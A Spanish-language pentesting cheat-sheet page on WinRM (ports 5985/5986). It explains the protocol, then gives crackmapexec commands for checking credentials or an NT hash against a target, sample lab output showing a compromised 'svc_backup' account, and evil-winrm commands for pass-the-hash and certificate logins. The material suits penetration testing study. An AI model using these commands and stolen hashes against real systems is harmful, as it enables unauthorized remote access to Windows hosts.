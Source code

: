 # Port 5985, 5986 - WinRM

WinRM (Windows Remote Management) es un protocolo de administración remota desarrollado por Microsoft para la administración de sistemas operativos Windows. WinRM permite a los administradores controlar y administrar de forma remota servidores y estaciones de trabajo Windows. A través de WinRM, los administradores pueden ejecutar comandos y scripts, obtener información del sistema, configurar el firewall, entre otras funciones de administración remota.

Los usuarios pertenecientes al grupo Remote Managment Users cuentan con capacidad de WinRm, por lo que si conocemos sus credenciales tendremos capacidad de ejecución remota de comandos.



## Explotación

Validar si un determinado usuario tiene capacidad de WinRM:

```bash
crackmapexec winrm <TARGET-IP> -u '<USER>' -p '<PASSWD>' [-H '<NT-HASH>']

crackmapexec winrm 10.10.10.192 -u 'svc_backup' --hash '9658d1d1dcd9250115e2205d9f48400d'
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)

```

Conectarse a este servicio con evilwinrm

```bash
gem install evilwinrm # Instalar evilwinrm 

evil-winrm -i <HOST> -u <USER> -H <NT-HASH> # connection
evil-winrm -i <HOST> -c <CERT> -k <KEY> -S  # ssl connection
```
